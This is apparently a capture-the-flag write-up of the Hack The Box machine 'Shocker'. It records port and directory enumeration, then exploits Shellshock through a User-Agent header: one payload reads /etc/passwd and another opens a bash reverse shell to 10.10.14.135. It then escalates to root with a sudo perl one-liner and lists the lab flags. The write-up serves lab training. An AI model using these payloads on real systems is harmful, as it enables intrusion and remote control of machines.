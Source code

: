 # Shocker 

>  Easy | Linux 

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.10.56` 
	- `sudo nmap -T4 -A -p 80,2222 10.10.10.56` 
2. enumerate port 2222:
	- try anonymous connection - failed
	- read banner = SSH-2.0-OpenSSH_7.2p2 Ubuntu 4ubuntu2.2
3. enumerate port 80:
	- visit website `http://10.10.10.56`
	- run gobuster: `gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x bak,conf,txt,js,php`
	- check for robots.txt - none 
	- run nikto scan: `nikto -h 10.10.10.56`
	- run gobuster again: `gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/common.txt`
	- try "cgi-bin" directory for files: `gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x bak,conf,txt,js,php,sh`
		- found "user.sh"
	- test for shellshock vulnerability (Linux host with script in /cgi-bin):
		- `sudo nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56 -p 80`
		- target is vulnerable 
	- try to execute commands:
		- `wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh && cat user.sh`
		- success 
	- create a web shell:
		- `wget -U "() { foo;};echo; /bin/bash -i >& /dev/tcp/10.10.14.135/1234 0>&1" http://10.10.10.56/cgi-bin/user.sh`
4. get user flag
	- `cd ~` -> `cat user.txt`
	- user flag = **ead141c08df151d44c73953169776c62**
5. escalate privileges
	- check sudo permissions: `sudo -l` -- have root access to /usr/bin/perl 
	- lookup on GTFO Bins -- found exploit: `sudo perl -e 'exec "/bin/sh";'`
	- get root flag:
		- `cat /root/root.txt`
		- root flag = **25d793a4e484b3e51d16f0be17b99e98**
	
	
